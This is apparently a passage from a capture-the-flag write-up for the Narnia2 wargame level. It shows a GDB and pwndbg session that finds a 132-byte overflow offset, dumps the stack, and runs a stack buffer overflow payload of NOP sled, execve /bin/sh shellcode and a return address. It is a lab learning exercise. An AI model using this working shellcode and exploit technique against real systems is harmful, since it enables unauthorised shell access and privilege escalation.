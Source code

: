 and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./narnia2...(no debugging symbols found)...done.
(gdb) set args aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
(gdb) r
Starting program: /narnia/narnia2 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616169 in ?? ()
```
Aaaaand let's get our offset
```
pwndbg> cyclic -l 0x62616169
132
```
Brilliant! By dumping a portion of our current stack frame we can get an estimative address where to put our shellcode:
```
(gdb) x/200bx $esp-100
0xffffd4bc:	0x6a	0x61	0x61	0x61	0x6b	0x61	0x61	0x61
0xffffd4c4:	0x6c	0x61	0x61	0x61	0x6d	0x61	0x61	0x61
0xffffd4cc:	0x6e	0x61	0x61	0x61	0x6f	0x61	0x61	0x61
0xffffd4d4:	0x70	0x61	0x61	0x61	0x71	0x61	0x61	0x61
0xffffd4dc:	0x72	0x61	0x61	0x61	0x73	0x61	0x61	0x61
0xffffd4e4:	0x74	0x61	0x61	0x61	0x75	0x61	0x61	0x61
0xffffd4ec:	0x76	0x61	0x61	0x61	0x77	0x61	0x61	0x61
0xffffd4f4:	0x78	0x61	0x61	0x61	0x79	0x61	0x61	0x61
0xffffd4fc:	0x7a	0x61	0x61	0x62	0x62	0x61	0x61	0x62
0xffffd504:	0x63	0x61	0x61	0x62	0x64	0x61	0x61	0x62
0xffffd50c:	0x65	0x61	0x61	0x62	0x66	0x61	0x61	0x62
0xffffd514:	0x67	0x61	0x61	0x62	0x68	0x61	0x61	0x62
0xffffd51c:	0x69	0x61	0x61	0x62	0x6a	0x61	0x61	0x62
0xffffd524:	0x6b	0x61	0x61	0x62	0x6c	0x61	0x61	0x62
0xffffd52c:	0x6d	0x61	0x61	0x62	0x6e	0x61	0x61	0x62
0xffffd534:	0x6f	0x61	0x61	0x62	0x70	0x61	0x61	0x62
0xffffd53c:	0x71	0x61	0x61	0x62	0x72	0x61	0x61	0x62
0xffffd544:	0x73	0x61	0x61	0x62	0x74	0x61	0x61	0x62
0xffffd54c:	0x75	0x61	0x61	0x62	0x76	0x61	0x61	0x62
0xffffd554:	0x77	0x61	0x61	0x62	0x78	0x61	0x61	0x62
0xffffd55c:	0x79	0x61	0x61	0x62	0x00	0x00	0x00	0x00
0xffffd564:	0x00	0x00	0x00	0x00	0x02	0x00	0x00	0x00
0xffffd56c:	0x50	0x83	0x04	0x08	0x00	0x00	0x00	0x00
0xffffd574:	0x10	0xe7	0xfe	0xf7	0x99	0xa1	0xe2	0xf7
0xffffd57c:	0x00	0xd0	0xff	0xf7	0x02	0x00	0x00	0x00
(gdb) p $ebp
$3 = (void *) 0x62616168
```
Right, so it seems our ebp is at 0xffffd518 and our crash point is situated at address 0xffffd51c of the stack. Our shellcode has 25 bytes, so let's try and build the following payload:
```107 * nops + shellcode + stack_address``` and let's choose our stack address ```0xffffd7c0``` and see how it goes.

```
(gdb) r $(python -c 'print "\x90" * 107 + "\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\x31\xc0\xb0\x0b\xcd\x80" + "\xc0\xd7\xff\xff"')